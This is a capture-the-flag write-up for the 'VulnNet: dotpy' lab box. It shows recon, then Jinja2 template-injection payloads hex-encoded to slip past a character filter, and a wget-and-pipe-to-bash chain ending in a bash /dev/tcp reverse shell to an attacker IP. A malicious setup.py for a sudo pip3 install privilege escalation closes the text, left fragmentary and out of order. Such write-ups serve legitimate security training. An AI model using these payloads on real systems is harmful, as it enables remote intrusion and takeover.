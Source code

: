 ```yaml
---
layout: post
title:  "VulnNet: dotpy"
date:   2022-03-01 16:18:00 +0000
tags: python jinja2 hex
---
```


## [0x01] Outline

![Subscribe](/assets/img/vulnnet_dotpy/icon.png){: w="100" .left}

VulnNet: dotpy is a medium difficulty box with a focus on `python`.


## [0x02] Recon


### nmap

Running nmap we find port `8080` open

```bash
nmap -sC -sV -oA nmap/scan -p- -v 10.10.132.101

---snip---
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://10.10.132.101:8080/login
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
---snip---
```
### website
Browsing to `http://10.10.132.101:8080` we're greeted with a login / sign up form. Many of the links are Anchors that lead nowhere.
Since we know the page is loading we can run our `gobuster` scans, and we'll need to add `-b 403` to force the scan.

![Subscribe](/assets/img/vulnnet_dotpy/01.png){: w="300" .left}

### gobuster
```bash
gobuster dir -u http://10.10.132.101:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -o main.gobuster -b 403

cat main.gobuster 
/login                (Status: 200) [Size: 5589]
/register             (Status: 200) [Size: 5021]
/logout               (Status: 302) [Size: 219] [--> http://10.10.132.101:8080/login]
```


### purse
While our scan is running we'll quickly clone the site and check with `pursue`, but there isn't anything of note here.

```bash
wget -rkpN -e robots=off http://10.10.132.101:8080
pursue --query | sort -u
pursue --domain | sort -u
pursue --endpoints | sort -u
```

### Register and Login

Clicking the `Create New Account` takes us to a `/register` page. We'll use `admin`, `admin@admin.com` and password of `admin`, we're prompted to log in.

Once logged in we see an application dashboard we oddly have a user profile picture and the name of `Staradmin`.  It's possible that using `admin` as our username has caused us to get picked off the top of the database or maybe this is what was meant to happen?

![Dashboard](/assets/img/vulnnet_dotpy/02.png){: w="300" .left}

### Walking the site

Most of the links are only Anchor tags so are a dead end.  This took me about 2 hours to find a vulnerability, I tried clicking every button and downloading every file and page I could find.


### SSTI

After trying for an `LFI` at `http://10.10.132.101:8080/etc/passwd` you can see that the path `/etc/passwd` is reflected in the page.
Since our `nmap` banner grab says this site is running `Werkzeug` we can try `Server Side Template Injection (SSTI)`

![404](/assets/img/vulnnet_dotpy/03.png){: w="600" .left}

Trying to go to the path `http://10.10.132.101:8080/{{ 7 * 7 }}` shows the answer `49`.

[HackTricks SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) examples for other engines are below; 
- {{7*7}}
- ${7*7}
- <%= 7*7 %>
- ${{7*7}}
- #{7*7}

![404](/assets/img/vulnnet_dotpy/04.png){: w="600" .left}

Navigating to `http://10.10.132.101:8080/{{config}}` lists all the config items from with in the Python web server, but we're unable to use a full stops / period `.` in our query as there is some sort of blacklist being checked. After some testing we're unable to use `.`, `_`, `[`, `]`, if we do, we get redirected to a `403` blocked page error. 

## Research

After about a days research I came across this post [https://gusralph.info/jinja2-ssti-research/](https://gusralph.info/jinja2-ssti-research/) that goes into depth on how a `Web Application Firewall (WAF)` might block certain characters and how to bypass the filter with encoding.

It would seam that this box is using the methods detailed in this paper as its inspiration.  The answer is given to us, but I took another few hours to dive into the topic to understand what is happening and how this works. 

>In real PenTests and Bug Bounty situations the answer may need adjustments made.
{: .prompt-info }

### Python Internals

My understanding of this code is we're using `requests` object that is available in this processing of our `GET` request on the server. Then we use this to traverse up the object tree within `Python` to the `globals` and finally down to the `builtins` functions of Python classes. From here this is the same as writing `from os import popen` within the Python interpreter or Python script.

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

Now that we know how to run code raw Python using the `Jinja2` templating engine we have to get past the character black list.
Below is the function I wrote to replicate the code given in the research post. We need to prepend `\x` to inform Jinja2 that this is written in `hex` and not the string `5f`.

```python
str(bytes(str(i).encode('utf-8')).hex())
```

Explaining the code above; we take a single letter and encode it to `utf-8`. This insures Python know exactly what character it is, then we turn it into bytes, once it is in bytes we are able to convert it to hex. Finally, we prepend `\x` to our hex value and turn the whole thing into a string.

```python
def utf8_encode(string):
    _tmp = ''
    for i in string:
        if i in ['.','[',']','_']:
            _tmp += r'\x' + str(bytes(str(i).encode('utf-8')).hex())
        else:
            _tmp += i
    return _tmp

string_to_encode = "{{request|attr('application')|attr('__globals__')}}"
print(utf8_encode(string_to_encode))
```

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

Testing this command we are able to see the OS `id` command in our error page response.  We'll update our payload to get a reverse shell.

![id](/assets/img/vulnnet_dotpy/05.png){: w="600" .left}


Running `which%20wget` to check if `wget` is available.  From further testing I'm unable to get `/` working in any of the commands.  This will require a multistep process to avoid use the forward slash.

>We need to use `%20` as our space encoding otherwise the server will try to parse it.
{: .prompt-info }

## Attack Chain

Now having all this information available to us, we're able to start formulating our attack chain.
1. Create Bash reverse shell and saving it as `index.html`.  This allows us to download this file without using a forward slash `/`.
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.8.208.76/4242 0>&1'
```

2. Stand up a web server to publish our shell. `sudo` is required to use port `80`, the default port for web servers.
```bash
sudo python3 -m http.server 80
```
3. Download file with `wget`.
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('wget%2010\x2e8\x2e208\x2e76')|attr('read')()}} 
```

4. Run `netcat` to catch reverse connection.
```bash
nc -lnvp 4242
```

1. Run reverse shell `cat index.html|bash`. To use the pipe `|` we'll have to convert to hex `\x7c`.
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat%20index\x2ehtml\x7cbash')|attr('read')()}} 
```

## Foot Hold

Our `netcat` listeners prompt changes, and we're able to run commands as the web user. Let's check for the other users on the system and our `sudo` privileges.

```bash
web@vulnnet-dotpy:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
system-adm:x:1000:1000:system-adm,,,:/home/system-adm:/bin/bash
web:x:1001:1001:,,,:/home/web:/bin/bash
manage:x:1002:1002:,,,:/home/manage:/bin/bash
```

```bash
web@vulnnet-dotpy:~$ sudo -l
Matching Defaults entries for web on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *
```

sudo -u system-adm /usr/bin/pip3 install /dev/shm/setup.py

echo 'from os import popen
popen("chmod 777 /dev/shm/*")
popen("/dev/shm/rev.sh")' > setup.py
